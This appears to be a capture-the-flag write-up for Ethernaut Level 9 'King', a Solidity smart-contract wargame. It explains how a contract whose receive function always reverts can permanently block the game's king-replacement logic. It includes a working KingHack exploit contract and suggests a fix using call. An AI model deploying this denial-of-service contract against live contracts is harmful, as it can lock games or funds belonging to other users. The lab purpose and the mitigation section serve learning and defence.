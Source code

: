 ```yaml
---
title: Level 9 - King
slug: level-9
published: 05-17-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut9.svg
---
```


## Objectives

1. Break the game by making is unplayable.

## Vulnerabilities

### Flawed game logic

The game logic has a flaw. When a new king is crowned, the game contract send the previous king the prize amount.

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  payable(king).transfer(msg.value);
  king = msg.sender;
  prize = msg.value;
}
```

As it is implemented, the game **breaks if that previous king can't receive eth**. For example, if a contract's `receive`
function automatically `revert` the transaction.

```solidity
receive() external payable {
    revert();
}
```

## Exploit

1. Write and deploy the following hack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {function prize() external view returns(uint);}

contract KingHack {
    IKing target;

    constructor(address _targetAddress){
        target = IKing(_targetAddress);
    }

    function attack() external payable {
        require(msg.value >= target.prize() , "Not enough Eth");
        (bool success,) = address(target).call{value: msg.value}("");
        require(success, "Transaction not succssful");
    }

    receive() external payable {
        revert();
    }
}
```

2. Call the `attack` function to break the game.

## Suggested mitigation

- Replace `transfer` by `call`. This way, you can listen to the success of the transaction and add some logic
  if it fails.

```solidity
receive() external payable {
  require(msg.value >= prize || msg.sender == owner);
  (bool success, ) = payable(king).call{value: msg.value}("");
  if(success){
    king = msg.sender;
    prize = msg.value;
  } else {
    // Some logic for when call fails.
  }

}
```

## Further reading

- King of the ether post-mortem <ExternalLink href={"http://www.kingoftheether.com/postmortem.html"} />
